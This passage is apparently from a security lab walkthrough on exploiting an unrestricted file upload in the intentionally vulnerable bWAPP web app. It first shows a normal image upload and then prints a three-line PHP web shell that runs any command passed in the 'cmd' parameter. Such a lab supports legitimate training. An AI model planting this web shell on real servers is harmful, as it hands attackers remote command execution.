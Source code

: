     - Return to the file upload webpage at <http://192.168.13.35/unrestricted_file_upload.php>.

    - We will upload an image that has already been added to the desktop of the computer.
      
      - Select Browse.
      
      - From the desktop, select the image `sample-image.jpg`. This should take you back to the file upload webpage and show the image selected.
      
      - Select Upload.

      - It should display the following image:

        ![On the Unrestricted File Upload page of the bWAPP website, a red arrow points to the message, "The image has been uploaded here."](Images/LFI7.png) 
  
    - Select **here** to take you to the image that was just uploaded. This will take you to a page to display the image!

    - Point to the URL of this page: <http://192.168.13.35/images/sample-image.jpg>. Specifically note the `.jpg` extension.
 
    - Return to the terminal and access the images directory, then show that the image we uploaded was added to the filesystem: 
 
      - `cd images`
 
      - `ls sample-image.jpg`
 
    - This step shows the intended functionality of the web application: to allow a user to upload image files to the web application's local filesystem, which can later be accessed and displayed by the user.
  
5. Next we'll upload a malicious PHP script. We will use a custom PHP script called `script.php`, which is designed to enable a malicious user to execute code remotely. 

    - This script looks as follows (note that you don't need to understand the syntax of this script just yet):

          <?php
          $command = $_GET['cmd'];
          echo system($command);
          ?>
 
    - Return to the desktop of your Vagrant machine and note that the script has already been created and added there.

